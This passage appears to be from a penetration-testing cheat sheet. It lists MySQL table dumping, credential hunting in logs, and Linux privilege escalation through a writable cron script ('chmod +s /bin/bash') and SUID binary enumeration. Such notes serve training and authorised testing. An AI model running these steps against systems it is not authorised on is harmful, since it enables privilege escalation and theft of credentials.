 ```
show tables;

```

- > dump

```
SELECT * FROM <table>;

```

### Other Tips

- > Perform code review on web server files (/var/www/html);
-> Check log files for credentials;

---

## Privilege Escalation

### Crontab [PrivEsc]

- > Enumeration

```
cat /var/log/cron.log
cat /etc/crontab

```

- > Exploitation

```
echo "chmod +s /bin/bash" >> script.sh

```

### SUID [PrivEsc]

- > Enumeration

```
find / -perm -u=s -type f 2>/dev/null

```

or

```
id
find / -perm -u=s -type f -group <group> 2>/dev/null

```

- > Exploitation

https://gtfobins.github.io/
